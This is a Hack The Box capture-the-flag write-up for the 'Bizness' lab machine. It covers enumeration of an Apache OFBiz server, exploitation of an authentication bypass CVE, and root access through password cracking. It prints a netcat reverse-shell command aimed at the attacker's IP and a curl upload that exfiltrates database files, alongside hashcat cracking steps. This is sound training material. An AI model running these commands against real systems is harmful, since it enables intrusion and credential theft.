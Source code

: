 ```yaml
---
title:  "HTB Bizness Writeup"
date:   2024-05-25 00:30:00 
categories: HTB Machine
tags: apache_ofbiz CVE-2023-51467 CVE-2023-49070 
---
```


![Bizness](/assets/img/Bizness/GDA3faiXQAA_He5.png)

## Introduction 

The initial access was what you would expect of an easy machine. Doing some basic enumration to then find and exploiting a known vulnerability. Getting access to root was a bit more of an obnoxious search but once you know what you have to do its trivial.

If you like any of my content it would help a lot if you used my referral link to buy Hack The Box/Academy Subscriptions which you can find on my about page.

## Initial access
### Recon

To start off our recon we will begin with an Nmap scan of the machine. Using the following command:
```
sudo nmap -sS -A  -p-  -o nmap  10.10.11.252
```
**Nmap**
```
# Nmap 7.94 scan initiated Tue Jan  9 13:48:53 2024 as: nmap -sS -A -p- -o nmap 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.026s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
39249/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/9%OT=22%CT=1%CU=34590%PV=Y%DS=2%DC=T%G=Y%TM=659D954D
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   25.91 ms 10.10.14.1
2   27.04 ms 10.10.11.252

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  9 13:49:49 2024 -- 1 IP address (1 host up) scanned in 56.97 seconds
```
When reviewing the Nmap output we can see that only the web ports and SSH are open. So the first step is to check out the web portal. Looking at the web page at first sight it looks like a static website. So we'll have to start digging a little deeper. my first guess is to do some directory brute forcing.

![Front page](/assets/img/Bizness/Bizness_01.png)

So first i ran a dirsearch, dirsearch is a great tool to get a quick lay of the land although its default wordlist isn't the biggest it often does find the more common things. This command gave us some really interesting info that there was a page located at **/control/login**

```bash
dirsearch -u https://bizness.htb
```
![Dirsearch results](/assets/img/Bizness/Bizness_02.png)

When browsing to this page we can see that its an Apache ofbiz application ERP system running here. When we look in the bottom corner we can see that version **18.12**. This version is found to be vulnerable to an authentication bypass vulnerability **CVE-2023-51467** and **CVE-2023-49070**. There is already a public exploit for this vulnerability as well. you can download it from this [github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)


![ofbiz version](/assets/img/Bizness/Bizness_03.png)

Clone the github repo using the following command

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
```

Next we run the exploit using, As command I used a reverse shell using netcat

```bash
python exploit.py --url https://bizness.htb --cmd "nc -c bash 10.10.14.225 443" 
```

After running the exploit we'll gain access to the system as user **ofbiz**

![User shell](/assets/img/Bizness/Bizness_04.png)

## Privilege escalation

For privilege escalation i started looking at the files within the file structure of the ERP solution. I then noticed that the application is using a derby database. This database saves all its content in files however all the files are chunked into small pieces. and can be found in the **/opt/ofbiz/runtime/data/derby/ofbiz/seg0**. i decided to exfiltrate the entire directory to do this i first setup a python upload server

```
python3 -m uploadserver 80
```
Next use the following Bash command to append all files into one 

```bash
cat *.dat >> combined_file
```

Then i used the following command to upload the file to my machine

do curl -X POST http://10.10.14.225/upload -F files=@combined_file


After extracting the file we can see that it sa binary file however some bits and pieces are still readable.The first low hanging fruit check i do is to check if there are any lines containing the password in the line. We can do this with the following regex using grep

```bash
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

This gives me the following output. We can see that there is a password hash in there on line **21318**

```
10830:SYSCS_CREATE_USEuserNampasswordVARCHAR
10830:PASSWORD&$c013800d-00fb-2649-07ec-000000134f30
10830:SYSCS_RESET_PASSWORuserNampasswordVARCHAR
10830:PASSWORD&$c013800d-00fb-2649-07ec-000000134f30
10830:SYSCS_MODIFY_PASSWORpasswordVARCHAR
10870:PASSWORD'&$c013800d-00fb-2649-07ec
10870:PASSWOR(&$c013800d-00fb-2649-07ec
10954:td align='left'><span>Password: </span></td
10957:td align='left'><input type="password" class='inputBox' name="PASSWORD" autocomplete
10972:href="<@ofbizUrl>/forgotpasswd</@ofbizUrl>">Forgot Password?</a></div
10988:if autoUserLogin?has_content>document.loginform.PASSWORD.focus();</#if
11234:Password>${password}</Password
11465:VT_CHPWD_TMPLT_LOC
VT_RES_TYPE22#!Change Password Template Location
11465:VT_FGPWD_TMPLT_LOC
VT_RES_TYPE23#!Forget Password Template Location
11554:PRDS_EMAIL
                PWD_RETRIEVE10Retrieve Password
21318:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
<Snipped>
```

So now we have the following hash however the format we have here doesn't match any real hash formats. It must have been manipulated in one way or the other. So the next step would then be to search for how this application uses these hashes.

```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

To figure out how the ofbiz application uses their hashes i looked up if i could find the source code online.I did find the source code on github the following code was being used to compare password - [Full code](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java). In this code we can see that the hash content is a **url safe base64 encoded string** ontop of the hex content

```java
    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance(hashType);
            messagedigest.update(salt.getBytes(UtilIO.getUtf8()));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new GeneralRuntimeException("Error while comparing password", e);
        }
    }
```
We can reverse this process with the following cybercheff recipe.

```
From_Base64('A-Za-z0-9-_',false,false)
To_Hex('None',0/disabled)
To_Hex_Content('All chars',false)
```
![Cybercheff](/assets/img/Bizness/Bizness_05.png)

So this gives us the following hash. The **:d** is the salt we found in the hash earlier. This gives us the following hash which we can crack using hashcat.

```
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```

Running the following hascat command would show you the password is **monkeybizness**

```
hashcat -m 120 -a 0 hash /usr/share/wordlists/rockyou.txt

```
![Hashcat](/assets/img/Bizness/Bizness_06.png)


I then started to try these credentials on any account i could find. Seems i was overthinking it because this was the password of the root user. We could then log into the machine using the su command 

```
su root 
```

![Root access](/assets/img/Bizness/Bizness_07.png)
